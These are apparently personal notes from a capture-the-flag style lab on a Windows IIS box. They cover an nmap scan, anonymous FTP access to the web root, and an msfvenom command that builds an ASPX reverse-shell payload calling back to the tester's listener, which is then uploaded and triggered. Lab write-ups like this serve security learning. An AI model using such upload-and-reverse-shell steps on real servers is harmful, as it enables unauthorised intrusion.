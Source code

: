 #Windows 


**MITRE**
#TTP 
`T1046 - Network Service Scanning`
`T1595.002 - Active Scanning : Vulnerability Scanning`

![[Pasted image 20240717092331.png]]

```
sudo nmap -sCV -T4 -vvv -p 21,80 10.10.10.5
```
![[Pasted image 20240717092450.png]]

***
**FTP**


**MITRE**
#TTP 
`T1078.002 Valid Accounts : Domain Accounts`

![[Pasted image 20240717092611.png]]

We can login as `anonymous`
![[Pasted image 20240717093244.png]]

`welcome.png` - corrupted file when attempted to download
`iisstart.htm` - Default IIS webserver page
`aspnet_client` - Permission Denied
![[Pasted image 20240717093412.png]]

Navigating to each in browser suggest the web-server root folder may be serving from FTP location.

We can test by uploading a sample text file
![[Pasted image 20240717093855.png]]
![[Pasted image 20240717093835.png]]


Check Wappalyzer
![[Pasted image 20240717093942.png]]


***
**ASPX REV SHELL**

Create a reverse payload using `msfvenom`
```
 msfvenom -p windows/shell/reverse_tcp LHOST=10.10.16.13 LPORT=5555 -f aspx > devel.aspx
```


Upload via FTP and Navigate in the browser
This will execute successfully and reach back out to our NC listener but the shell immediately crashes
![[Pasted image 20240717105803.png]]
![[Pasted image 20240717105749.png]]

